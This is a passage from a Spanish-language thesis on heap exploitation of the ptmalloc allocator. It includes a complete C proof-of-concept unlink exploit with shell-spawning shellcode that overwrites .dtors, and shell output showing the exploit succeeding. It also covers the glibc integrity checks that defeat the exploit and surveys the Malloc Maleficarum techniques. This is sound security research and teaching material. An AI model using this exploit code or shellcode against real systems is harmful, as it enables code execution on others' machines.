Esto se debe a que para representar valores enteros se utiliza una representaci�n conocida como \textit{complemento a 2}\footnote{Para conocer m�s detalles sobre dicha representaci�n, visitar:\\ \url{http://es.wikipedia.org/wiki/Complemento_a_dos}}. Este sistema permite representar valores tanto positivos como negativos utilizando n�meros binarios. Con esta t�cnica se aprovecha el hecho de que la representaci�n de n�meros negativos en complemento a 2 se construye a partir de negar todos los bits del valor que se quiere convertir y sumarle uno. Negando todos los bits del valor a convertir se consigue que los bits m�s significativos del valor tengan sus bits a 1 y no a 0, como ocurre con valores peque�os. \\
A modo de ejemplo, el complemento a 2 el n�mero 8 en una arquitectura de 32 bits se representa como 0x00000008, en cambio, el n�mero -8 se representa como 0xfffffff8. Como se puede ver, el n�mero 8 contiene muchos bytes nulos, mientras que el n�mero -8 no contiene ninguno. \bigskip

Con este -16, cuando se realiza el primer |free()| el flujo del programa acaba en el C�digo \ref{code:ptmalloc_vulnerable} de la p�gina \pageref{code:ptmalloc_vulnerable}. Despu�s de obtenerse el valor para |nextchunk| que es la direcci�n del fragmento 2 y su tama�o, -16, se comprueba si el siguiente fragmento al fragmento 2 est� en uso. Esto se hace a partir de la macro |inuse_bit_at_offset| definida en el C�digo \ref{code:inuse_bit_at_offset_macro}. Esta comprobaci�n lleva a definir el tama�o del fragmento falso con un -8. En estos momentos el -8 no tiene justificaci�n, lo que s� la tiene es que eligiendo un -8 el bit |PREV_INUSE| est� a 0, con lo que la variable |nextinuse| ser� 0 y el algoritmo ejecutar� la macro \textit{unlink} al entrar en la condici�n de la l�nea 21. \\
\underline{De este modo se ha conseguido ejecutar la macro \textit{unlink}} con lo que la secci�n .dtors se habr� sobrescrito con la direcci�n del \textit{shellcode} tal y como se ha explicado en los apartados anteriores. \bigskip

Dando por hecho que ya se ha conseguido la ejecuci�n de c�digo arbitrario, a continuaci�n se explica el por qu� de los dem�s detalles del \textit{payload} en orden de participaci�n en el flujo de ejecuci�n. \bigskip

Despu�s del primer |free()|, se ejecuta el |free()| del segundo fragmento. Al ejecutarse las l�neas 4 y 5 de C�digo \ref{code:ptmalloc_vulnerable} se obtiene la direcci�n del siguiente fragmento a partir del tama�o del fragmento que se est� liberando, o sea, -16. De este modo, la variable |nextchunk| apunta al fragmento de memoria falso y la variable |nextsize| almacena el valor -8. \bigskip

Acto seguido se ejecuta la macro |prev_inuse(p)|. El fragmento |p| es el que tiene un tama�o de -16 bytes, pero tal y como se ha apuntado a pie de p�gina anteriormente, el valor real es un -15 debido a que el �ltimo bit del campo |size| est� a uno. O sea, el bit |PREV_INUSE| est� a 1 con lo que no se entrar� a la condici�n de la l�nea 9 y de este modo se evitar� un nuevo \textit{unlink}. \bigskip

La siguiente instrucci�n relevante es, de nuevo, la de la l�nea 18, que es la macro |inuse_bit_at_offset()|. Del siguiente fragmento al que apunta |nextchunk|, o sea, el siguiente fragmento al fragmento falso, se obtiene su tama�o. Tal y como ya se ha comentado, al fragmento falso se le ha asignado un tama�o de -8 bytes, con lo que el siguiente fragmento estar� a menos -8 bytes a donde apunta |nextchunk|. El campo |size| de este nuevo fragmento falso tiene el bit de menos peso a 1 con lo que no se entrar� a la condici�n de la l�nea 21 ya que la variable |nextinuse| ser� 1. De este modo, de nuevo, se evita volver a ejecutar la macro \textit{unlink}. \bigskip

Con esta explicaci�n se detallan todos los datos del \textit{payload}. Evidentemente, todos los datos que no se han comentado pueden contener cualquier valor, evitando, evidentemente, bytes nulos. \bigskip

Tal y como se ha visto, esta t�cnica es bastante m�s compleja que la anterior, sin embargo, cuando la situaci�n lo requiera se podr� recurrir a ella. Adem�s, el uso de valores negativos o \textit{desbordamientos de enteros} permite evitar condiciones como la que se encuentra en [malloc.c:4217]. \bigskip

\pagebreak

\subsubsection{Construcci�n de la prueba de concepto sin bytes nulos}


Este apartado va a ser mucho menos extenso que el \ref{sec:const_pof}. debido a que el concepto es el mismo con la �nica diferencia que el \textit{payload} ha cambiado. El C�digo \ref{code:ptmalloc_exploit_2} muestra la nueva prueba de concepto. \bigskip

\lstset{language=C, caption=Exploit para el algoritmo ptmalloc sin bytes nulos , label=code:ptmalloc_exploit_2}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define VULN 		"./vuln"
#define PAYLOAD_SIZE	531

void world_destruction() __attribute__((destructor));
void build_payload (char *, void *);

char shellcode[]= 	/* jmp 12 + 12 nops */
			"\xeb\x0a\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
			/* shellcode by vlan7 and sch3m4 */
			"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9"
			"\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
			"\x69\x8d\x41\x0b\x89\xe3\xcd\x80";

int main(int argc, char ** argv) {
	
	int status;
	char crafted_data[700] = {0};
	
	
	/* Obtain the page size of the system */
	int pagesize = sysconf(_SC_PAGE_SIZE);
	if ( pagesize == -1) {
		perror("[-] Page size could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Obtain an aligned memory region in order to mprotect it */
	void * real_shell;
	if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
		perror("[+] Aligned memory could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Copy the shellcode to the executable region obtained with memalign */
	memcpy(real_shell, shellcode, sizeof(shellcode));
	/* Making  shellcode location executable */
	mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
	/* Making DTORS section writable */
	mprotect((void*)0x8049000, pagesize, PROT_WRITE);
	/* The payload is built */
	build_payload(crafted_data, real_shell);

	
	char * ptr_1 = (char *) malloc (512);
	char * ptr_2 = (char *) malloc (512);

	memcpy(ptr_1, crafted_data, PAYLOAD_SIZE);

	free(ptr_1);
	free(ptr_2);	
	
	return 0;
}

void build_payload(char * crafted_data, void * sc_addr) {

	char str_dtor_ptr[5] = {0};
	char * seek = crafted_data;
	
	/* Trash */
	memset(seek, '@', 492); 
	seek += 492;
	/* Size of the second fake chunk */
	/* if the PREV_INUSE bit is set, the unlink is not triggered */
	/* in the second free()*/
	memcpy(seek, "\x41@@@", 4);
	seek += 4;
	/* prev_size of fake chunk. */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* size of fake chunk. PREV_INUSE bit unset. -8 value */
	/* triggers unlink in the nextinuse of the first free() */
	memcpy(seek, "\xf8\xff\xff\xff", 4);
	seek += 4;
	/* fd of fake chunk */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* bk of fake chunk */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* prev_size of second freed chunk. */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* size of second freed chunk. Hexadecimal -16 value */
	/* PREV_INUSE bit set. Avoid consolidate backward (unlink) on 2nd free */
	memcpy(seek, "\xf1\xff\xff\xff", 4);
	seek += 4;
	/* fd of second freed chunk. dtors_end - 12 */
	memcpy(str_dtor_ptr, "\x10\x9f\x04\x08", 4);
	memcpy(seek, str_dtor_ptr, 4);
	seek += 4;
	/* bk of second freed chunk. Shellcode address */	
	memcpy(seek, &sc_addr, 4);
	seek += 4;
}

void world_destruction() {}
\end{lstlisting}

Debido a la complejidad del c�digo o, al menos, del \textit{payload}, �ste est� mucho m�s comentado, detallando el por qu� de cada una de sus partes. Los comentarios son una especie de resumen del apartado anterior. \bigskip

Al ejecutar el c�digo, del mismo modo que con el c�digo anterior, se obtiene una l�nea de comandos: \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto sin bytes nulos, label=out:pof_3]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof_without_null_bytes.c -o pof_without_null_bytes -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof_without_null_bytes 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

\pagebreak

\subsection{Evoluci�n de la t�cnica}

Por otro lado, ser�a correcto justificar porqu� las t�cnicas detalladas en los art�culos citados anteriormente ya no funcionan. \\
La metodolog�a que se explicaba en ellos era muy parecida a la detallada en el cap�tulo anterior, sin embargo, a parte de otras diferencias m�s sutiles, en esos art�culos en vez de sobrescribir el campo |size| del segundo fragmento con un -15 (a efectos pr�cticos el tama�o es de -16 bytes) lo sobrescrib�an con un -4, en hexadecimal, 0xfffffffc. \\
Actualmente, si se utiliza dicho valor, la macro \textit{unlink} se ejecuta en el primer |free()|, sin embargo, cuando se est� liberando el segundo fragmento de memoria, el que contiene el -4 en el campo |size|, el programa termina su ejecuci�n recibiendo un |SIGSEGV|, o sea, realizando una violaci�n de segmento cuando se ejecuta la macro |arena_for_chunk()| en [malloc:3405]. \bigskip

Esto se debe a que el valor -4, en hexadecimal es 0xfc lo que en binario es 1111 0110. El segundo conjunto de 4 bits contiene el bit |NON_MAIN_ARENA| a 1. Este dato es relevante debido a que la macro |arena_for_chunk()| se define del siguiente modo: \bigskip

\lstset{language=C, caption=Macro arena\_for\_chunk() , label=code:arena_for_chunk}
\begin{lstlisting}
#define arena_for_chunk(ptr) \
 (chunk_non_main_arena(ptr) ? heap_for_ptr(ptr)->ar_ptr : &main_arena)
\end{lstlisting}

Se comprueba si el fragmento de memoria pertenece al arena principal a partir de la macro |chunk_non_main_arena()|, definida como: \bigskip

\lstset{language=C, caption=Macro chunk\_non\_main\_arena() , label=code:chunk_non_main_arena}
\begin{lstlisting}
/* size field is or'ed with NON_MAIN_ARENA if the chunk was obtained
   from a non-main arena.  This is only set immediately before handing
   the chunk to the user, if necessary.  */
#define NON_MAIN_ARENA 0x4

/* check for chunk from non-main arena */
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)
\end{lstlisting}

Como se puede ver, la macro devolver� un valor diferente a uno si el campo |size| del fragmento de memoria tiene el bit |NON_MAIN_ARENA| a 1. \\
Tal y como ya se ha dicho, si el campo size contiene un -4, el bit |NON_MAIN_ARENA|, que en binario es 0100, estar� a uno con lo que la condici�n ser� positiva y se ejecutar� la macro |heap_for_ptr()| en vez de devolver la direcci�n del arena principal tal y como deber�a ocurrir. \\
Acto seguido, cuando se obtiene el puntero al arena a trav�s de dicha macro, se intenta obtener el campo |size|, pero debido a que dicho puntero no es correcto, se acaba incurriendo en una violaci�n de segmento. \bigskip

La �nica explicaci�n l�gica a este error publicado en los art�culos citados es que en la �poca en la que se publicaron el algoritmo \textit{ptmalloc} no implementaba el uso de diferentes arenas sino que siempre operaba sobre el mismo arena. Evidentemente, con la introducci�n del uso de m�s de un arena la t�cnica se volvi� obsoleta tal y como se demuestra con el C�digo \ref{out:pof_obsolete}. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n con el campo size a -4, label=out:pof_obsolete]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gdb -q pof_without_null_bytes
Leyendo s�mbolos desde /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes...hecho.
(gdb) r
Starting program: /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes 

Program received signal SIGSEGV, Segmentation fault.
0x0013087e in free (mem=0x804b210) at malloc.c:3405
3405	  ar_ptr = arena_for_chunk(p);
(gdb) x/3x 0x804b208
0x804b208:	0x40404041	0xfffffffc	0x08049f10
(gdb) 
\end{listing}

Como se puede ver, el puntero |mem| apunta a la direcci�n 0x804b210. Si a dicha direcci�n se le restan 8 bytes se obtiene la direcci�n del fragmento de memoria |p|\footnote{El valor del puntero p ha sido obtimizado por gdb, por esta raz�n no se obtiene su contenido con x/3x p.}. Como se puede ver, el campo |prev_size| del fragmento contiene el valor 0x40404041, que se ha sobrescrito con el desbordameinto, y el campo size contiene el valor 0xfffffffc, -4. Debido a lo explicado, este valor hace que el programa termine al ejecutar la macro |arena_for_chunk|.

\pagebreak

\section{Explotando el algoritmo implementado en la GLIBC}
\label{sec:glibc_exploiting}

Actualmente, las t�cnicas detalladas en los apartados anteriores est�n obsoletas. Aunque el algoritmo que se usa sea el mismo, en la implementaci�n existente en la \textit{glibc} se han a�adido muchas modificaciones con el objetivo de asegurar la integridad de las estructuras de datos de modo que la explotaci�n del algoritmo se ha vuelto significativamente m�s compleja. \bigskip

Para mostrar las nuevas medidas de seguridad implementadas en la \textit{glibc}, a continuaci�n se ejecutan las pruebas de concepto detalladas en los apartados anteriores. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto sin bytes nulos, label=out:crash_pof_1]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof_without_null_bytes 
*** glibc detected *** ./pof_without_null_bytes: free(): invalid next size (normal): 0x09515008 ***
======= Backtrace: =========
/lib/libc.so.6(+0x6c501)[0x202501]
/lib/libc.so.6(+0x6dd70)[0x203d70]
/lib/libc.so.6(cfree+0x6d)[0x206e5d]
./pof_without_null_bytes[0x8048703]
/lib/libc.so.6(__libc_start_main+0xe7)[0x1acce7]
./pof_without_null_bytes[0x8048521]
======= Memory map: ========
00194000-00195000 r-xp 00000000 00:00 0          [vdso]
00196000-002ed000 r-xp 00000000 08:01 655498     /lib/libc-2.12.1.so
002ed000-002ee000 ---p 00157000 08:01 655498     /lib/libc-2.12.1.so
002ee000-002f0000 r--p 00157000 08:01 655498     /lib/libc-2.12.1.so
002f0000-002f1000 rw-p 00159000 08:01 655498     /lib/libc-2.12.1.so
002f1000-002f4000 rw-p 00000000 00:00 0 
00b24000-00b3e000 r-xp 00000000 08:01 655532     /lib/libgcc_s.so.1
00b3e000-00b3f000 r--p 00019000 08:01 655532     /lib/libgcc_s.so.1
00b3f000-00b40000 rw-p 0001a000 08:01 655532     /lib/libgcc_s.so.1
00eed000-00f09000 r-xp 00000000 08:01 655474     /lib/ld-2.12.1.so
00f09000-00f0a000 r--p 0001b000 08:01 655474     /lib/ld-2.12.1.so
00f0a000-00f0b000 rw-p 0001c000 08:01 655474     /lib/ld-2.12.1.so
08048000-08049000 r-xp 00000000 08:01 923982     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes
08049000-0804a000 -w-p 00000000 08:01 923982     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes
0804a000-0804b000 rw-p 00001000 08:01 923982     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes
09515000-09516000 rw-p 00000000 00:00 0 
09516000-09517000 -wxp 00000000 00:00 0 
09517000-09537000 rw-p 00000000 00:00 0 
b7700000-b7721000 rw-p 00000000 00:00 0 
b7721000-b7800000 ---p 00000000 00:00 0 
b785f000-b7860000 rw-p 00000000 00:00 0 
b786d000-b786f000 rw-p 00000000 00:00 0 
bfd25000-bfd46000 rw-p 00000000 00:00 0          [stack]
Abortado
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

En el C�digo \ref{out:crash_pof_1} se ejecuta la primera prueba de concepto en la que no se utilizaban bytes nulos. Como se puede ver el c�digo fuente de la glibc implementa una nueva medida de seguridad por la que el tama�o del siguiente fragmento de memoria al que se va a liberar no es correcto. Esta nueva comprobaci�n se ha a�adido en la l�nea 4306 del archivo malloc.c\footnote{A partir de ahora y hasta que se especifique lo contrario, todas las referencias al c�digo fuente son a los archivos encargados de la gesti�n de la memoria din�mica de la glibc 2.3.5.}. El C�digo \ref{code:nextsize_check} muestra dicha comprobaci�n. \bigskip

\lstset{language=C, caption=Comprobaci�n del tama�o del siguiente fragmento (malloc.c:4306) , label=code:nextsize_check}
\begin{lstlisting}
    if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect (nextsize >= av->system_mem, 0))
      {
        errstr = "free(): invalid next size (normal)";
        goto errout;
      }
\end{lstlisting}

En este caso, el tama�o del siguiente fragmento es mayor a |av->system_mem|, por esta raz�n la prueba de concepto no funciona correctamente.\bigskip

Por otro lado, si se ejecuta la prueba de concepto en la que no exist�an bytes nulos se obtiene el siguiente resultado. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con bytes nulos, label=out:crash_pof_2]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof_null_bytes 
*** glibc detected *** ./pof_null_bytes: double free or corruption (!prev): 0x09748008 ***
======= Backtrace: =========
/lib/libc.so.6(+0x6c501)[0x2ae501]
/lib/libc.so.6(+0x6dd70)[0x2afd70]
/lib/libc.so.6(cfree+0x6d)[0x2b2e5d]
./pof_null_bytes[0x8048703]
/lib/libc.so.6(__libc_start_main+0xe7)[0x258ce7]
./pof_null_bytes[0x8048521]
======= Memory map: ========
00110000-0012a000 r-xp 00000000 08:01 655532     /lib/libgcc_s.so.1
0012a000-0012b000 r--p 00019000 08:01 655532     /lib/libgcc_s.so.1
0012b000-0012c000 rw-p 0001a000 08:01 655532     /lib/libgcc_s.so.1
00242000-00399000 r-xp 00000000 08:01 655498     /lib/libc-2.12.1.so
00399000-0039a000 ---p 00157000 08:01 655498     /lib/libc-2.12.1.so
0039a000-0039c000 r--p 00157000 08:01 655498     /lib/libc-2.12.1.so
0039c000-0039d000 rw-p 00159000 08:01 655498     /lib/libc-2.12.1.so
0039d000-003a0000 rw-p 00000000 00:00 0 
0049b000-0049c000 r-xp 00000000 00:00 0          [vdso]
006f7000-00713000 r-xp 00000000 08:01 655474     /lib/ld-2.12.1.so
00713000-00714000 r--p 0001b000 08:01 655474     /lib/ld-2.12.1.so
00714000-00715000 rw-p 0001c000 08:01 655474     /lib/ld-2.12.1.so
08048000-08049000 r-xp 00000000 08:01 924051     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_null_bytes
08049000-0804a000 -w-p 00000000 08:01 924051     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_null_bytes
0804a000-0804b000 rw-p 00001000 08:01 924051     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_null_bytes
09748000-09749000 rw-p 00000000 00:00 0 
09749000-0974a000 -wxp 00000000 00:00 0 
0974a000-0976a000 rw-p 00000000 00:00 0 
b7700000-b7721000 rw-p 00000000 00:00 0 
b7721000-b7800000 ---p 00000000 00:00 0 
b78dd000-b78de000 rw-p 00000000 00:00 0 
b78eb000-b78ed000 rw-p 00000000 00:00 0 
bfbac000-bfbcd000 rw-p 00000000 00:00 0          [stack]
Abortado
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

En este caso, se comprueba la integridad de las estructuras de datos y, a tal efecto, se comprueba si el siguiente fragmento a liberar tiene el bit |PREV_INUSE| a 0. De ser as�, evidentemente se han corrompido las estructuras ya que dicho bit deber�a estar a 1 debido a que el fragmento a liberar - el anterior al de esta comprobaci�n - est� en uso. esta comprobaci�n se ha a�adido en la l�nea 4299 del archivo malloc.c tal y como se muestra en el C�digo \ref{code:previnuse_check}. \bigskip

\lstset{language=C, caption=Comprobaci�n del prev\_inuse siguiente fragmento (malloc.c:4299) , label=code:previnuse_check}
\begin{lstlisting}
    /* Or whether the block is actually not marked used.  */
    if (__builtin_expect (!prev_inuse(nextchunk), 0))
      {
        errstr = "double free or corruption (!prev)";
        goto errout;
      }
\end{lstlisting}

Si se conoce el funcionamiento del algoritmo, la evasi�n de las medidas de seguridad que se han mostrado es trivial, sin embargo, existe otra medida de seguridad implementada directamente en la macro \textit{unlink} que hace que el proceso de desenlazado de un fragmento de memoria sea mucho m�s robusto. \\
El C�digo \ref{out:crash_pof_3} muestra la ejecuci�n de una nueva prueba de concepto que implementa un \textit{payload} diferente. En este caso, en vez de utilizar un \textit{offset} negativo para situar el fragmento de memoria falso, se ha utilizado un \textit{offset} positivo de modo que se evadan las medidas de seguridad mostradas. Si el lector ha entendido todos los conceptos explicados hasta el momento, no tendr� ning�n problema para desarrollar �l mismo dicha prueba de concepto. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con offset positivo, label=out:crash_pof_3]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof_positive_offset 
*** glibc detected *** ./pof_positive_offset: corrupted double-linked list: 0x088c4208 ***
======= Backtrace: =========
/lib/libc.so.6(+0x6c501)[0xb50501]
/lib/libc.so.6(+0x6de33)[0xb51e33]
/lib/libc.so.6(cfree+0x6d)[0xb54e5d]
./pof_positive_offset[0x8048739]
/lib/libc.so.6(__libc_start_main+0xe7)[0xaface7]
./pof_positive_offset[0x8048521]
======= Memory map: ========
00839000-0083a000 r-xp 00000000 00:00 0          [vdso]
00a74000-00a8e000 r-xp 00000000 08:01 655532     /lib/libgcc_s.so.1
00a8e000-00a8f000 r--p 00019000 08:01 655532     /lib/libgcc_s.so.1
00a8f000-00a90000 rw-p 0001a000 08:01 655532     /lib/libgcc_s.so.1
00ae4000-00c3b000 r-xp 00000000 08:01 655498     /lib/libc-2.12.1.so
00c3b000-00c3c000 ---p 00157000 08:01 655498     /lib/libc-2.12.1.so
00c3c000-00c3e000 r--p 00157000 08:01 655498     /lib/libc-2.12.1.so
00c3e000-00c3f000 rw-p 00159000 08:01 655498     /lib/libc-2.12.1.so
00c3f000-00c42000 rw-p 00000000 00:00 0 
00f29000-00f45000 r-xp 00000000 08:01 655474     /lib/ld-2.12.1.so
00f45000-00f46000 r--p 0001b000 08:01 655474     /lib/ld-2.12.1.so
00f46000-00f47000 rw-p 0001c000 08:01 655474     /lib/ld-2.12.1.so
08048000-08049000 r-xp 00000000 08:01 923969     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_positive_offset
08049000-0804a000 -w-p 00000000 08:01 923969     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_positive_offset
0804a000-0804b000 rw-p 00001000 08:01 923969     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_positive_offset
088c4000-088c5000 rw-p 00000000 00:00 0 
088c5000-088c6000 -wxp 00000000 00:00 0 
088c6000-088e5000 rw-p 00000000 00:00 0 
b7600000-b7621000 rw-p 00000000 00:00 0 
b7621000-b7700000 ---p 00000000 00:00 0 
b7712000-b7713000 rw-p 00000000 00:00 0 
b7720000-b7722000 rw-p 00000000 00:00 0 
bfccd000-bfcee000 rw-p 00000000 00:00 0          [stack]
Abortado
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

De nuevo, se produce un error. Pero este error se debe a una comprobaci�n que parece que soluciona todos los problemas que introduce la macro \textit{unlink}. El C�digo \ref{code:unlink_check} muestra dicha comprobaci�n. \bigskip

\lstset{language=C, caption=Comprobaci�n en la macro unlink (malloc.c:1986) , label=code:unlink_check}
\begin{lstlisting}
/* Take a chunk off a bin list */
#define unlink(P, BK, FD) {                                           \
  FD = P->fd;                                                         \
  BK = P->bk;                                                         \
  if (__builtin_expect (FD->bk != P || BK->fd != P, 0))               \
   malloc_printerr (check_action, "corrupted double-linked list", P); \
  else {                                                              \
    FD->bk = BK;                                                      \
    BK->fd = FD;                                                      \
  }                                                                   \
}
\end{lstlisting}

Esta comprobaci�n es tan compleja de evadir porque comprueba la integridad de los fragmentos de memoria involucrados en el proceso de \textit{unlink} y comprueba la integridad de los punteros que se sobrescriben para realizar la explotaci�n.\\
Para entender esta comprobaci�n basta con volver a estudiar la Figura \ref{fig:initial_eight_chunks} de la p�gina \pageref{fig:initial_eight_chunks}. En dicha figura es el fragmento 3 el que se va a desenlazar con la macro \textit{unlink}. Si se siguen los punteros, se podr� comprobar como las condiciones de la l�nea 5 del C�digo \ref{code:unlink_check} no se cumplen ya que |FD->bk| y |BK->fd| apuntan a |P|. En la Figura \ref{fig:initial_eight_chunks} se cumplen dichos par�metros ya que el campo |bk| del fragmento 6 y el campo |fd| del fragmento 1 apuntan al fragmento 3, o sea, lo que ser�a |P|. \\
En cambio, si se intenta explotar el algoritmo tal y como se ha explicado en los apartados anteriores, el campo |fd| del fragmento |P| apuntar�a a la secci�n .dtors con lo que |P->fd->bk|, o sea, |FD->bk| no apuntar�a a |P| y, por otro lado, el campo |bk| del fragmento |P| apuntar�a al \textit{shellcode} con lo que |BK->fd| no apuntar�a a |P|. \bigskip

Podr�a existir un modo de evadir esta medida de seguridad, sin embargo, posiblemente s�lo podr�a ser una prueba de concepto ya que no ser�a posible extrapolar dicha t�cnica a un \textit{exploit} real. Este tema se trata con m�s �nfasis en el cap�tulo \ref{sec:about_unlink}. \bigskip

\pagebreak

\subsection{Malloc Maleficarum}

El texto Malloc Maleficarum\cite{MM} se escribi� con el prop�sito de evadir las nuevas medidas de seguridad que se hab�an implantado en la glibc para evitar la explotaci�n del algoritmo a trav�s de las vulnerabilidades explicadas en los apartados anteriores y otras vulnerabilidades que no se han detallado. \bigskip

La grandeza de este texto reside en que a finales del 2004 la glibc fue mejorada de tal manera que el c�digo parec�a inexpugnable. Los desarrolladores hab�an corregido cada una de las vulnerabilidades del algoritmo, de modo que todos los \textit{exploits} que se basaban en la explotaci�n del \textit{heap} se volvieron obsoletos. Parec�a que la gesti�n de memoria din�mica en sistemas Linux volv�a a ser segura. Sin embargo, la felicidad de los desarrolladores dur� apenas un a�o, pues a finales de 2005 Phantasmal Phantasmagoria publicaba un texto en el que teorizaba sobre no uno, sino cinco m�todos para explotar el \textit{heap}. \bigskip

Aun as�, en el Malloc Maleficarum s�lo se asentaban las bases te�ricas para vulnerar el algoritmo, de modo que en dicho texto no exist�an pruebas de concepto que demostraran lo que en ellos se afirmaba. Aun as�, fue el primer atisbo que demostraba que lo que durante un tiempo pareci� imposible, se tornaba posible. Fue entonces cuando muchos hackers alrededor del mundo empezaron a darle vueltas al texto de Phantasmal, de este modo en 2007 K-sPecial public� The House of Mind\cite{THOM} en el \textit{ezine .aware}. En dicho texto, K-sPecial demostraba como uno de los m�todos detallados por Phantasmal era factible y, de paso, correg�a alguno de los errores existentes en el Malloc Maleficarum. Esta vez la prueba de concepto s� que fue liberada al p�blico. \bigskip

Siguiendo la misma l�nea, en el 2009 \textit{blackngel} public� el texto Malloc Des-Maleficarum \cite{MDM} en el \textit{ezine Phrack}. En este texto no s�lo se repasaba una de las t�cnicas de Phantasmal, sino que se detallaban todas y cada una de modo que en la medida de lo posible se publicaba la prueba de concepto que demostraba que dicha t�cnica era viable o, por el contrario, era demasiado esot�rica. \bigskip

En el Malloc Des-Maleficarum, al igual que en el Malloc Maleficarum, el conjunto de t�cnicas estaban identificadas como diferentes casas. \textit{The House of Mind, The House of Prime, The House of Spirit, The House of Force y The House of Lore}. La Tabla \ref{tab:house_effectivity} muestra la efectividad de cada una tal y como \textit{blackngel} retrat� en el texto citado. \bigskip

\UndefineShortVerb{\|} %% Necesario para poner la barra vertical entre las filas de la tabla (linea 153).
\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	   		
	\begin{center}
	\begin{tabular}{| l | c |}
		\hline
		T�cnica & Efectividad \\
		\hline
		The House of Mind & glibc 2.8 \\
		\hline
		The House of Prime & glibc 2.3.6 \\
		\hline
		The House of Spirit & Todas las versiones de glibc hasta 2009 \\
		\hline
		The House of Force & glibc 2.8 \\
		\hline
		The House of Lore & Explotaci�n no probada \\
		\hline
	\end{tabular}
	\end{center}
	\caption{Efectividad de las t�cnicas del Malloc Maleficarum}
	\label{tab:house_effectivity}
\end{table}
\DefineShortVerb{\|} 

En el 2009, momento en el que \textit{blackangel} public� su documento, la versi�n vigente de la \textit{glibc} era la 2.8, de modo que tal y como se puede ver, la mayor�a de las t�cnicas detalladas por Phantasmal todav�a funcionaban aun habiendo transcurrido 4 a�os desde la publicaci�n de su art�culo.\bigskip

Si bien es cierto que la explotaci�n de alguna de las t�cnicas presentadas por Phantasmal requer�a un conjunto de precondiciones que hac�a que la explotaci�n del algoritmo en una situaci�n real fuera poco probable. Por ejemplo, tanto en \textit{The House of Spirit} y \textit{The House of Force} era necesario poder controlar algunos datos almacenados en el \textit{stack}, de modo que el atacante ten�a que ser capaz de escribir datos en variables almacenadas en el \textit{stack} lo que significa que ya no s�lo bastaba con un desbordamiento de b�fer en el \textit{heap}. \bigskip

Otro dato interesante es que desde el 2009 hasta la fecha actual - finales del 2012 - no ha habido ninguna otra noticia sobre la explotaci�n del \textit{heap}. Desde la versi�n 2.8 de la \textit{glibc} hasta la versi�n actual, la 2.16 no se conoce cual es el estado de cada una de estas t�cnicas. \\
Es por esta raz�n que en el pr�ximo apartado se detallar� cual es el estado de una de las t�cnicas m�s factibles de llevar a cabo en un escenario real\footnote{Exploit aprovechando un error en la gesti�n de un puntero en el heap y utilizando la t�cnica \textit{house of mind} para explotarlo: \\ \url{https://sites.google.com/site/felipeandresmanzano/popplerPOC.tar.bz2}}. 

\pagebreak

\subsubsection{The House of Mind}

Explicado todo lo anterior, entender esta t�cnica no supone ninguna dificultad. Esta es la ventaja de haber recorrido el arduo camino para poder llegar hasta aqu�. \\
Antes de nada, se muestra el c�digo vulnerable tal y como est� en la versi�n 2.3.5 de la \textit{glibc}. \bigskip

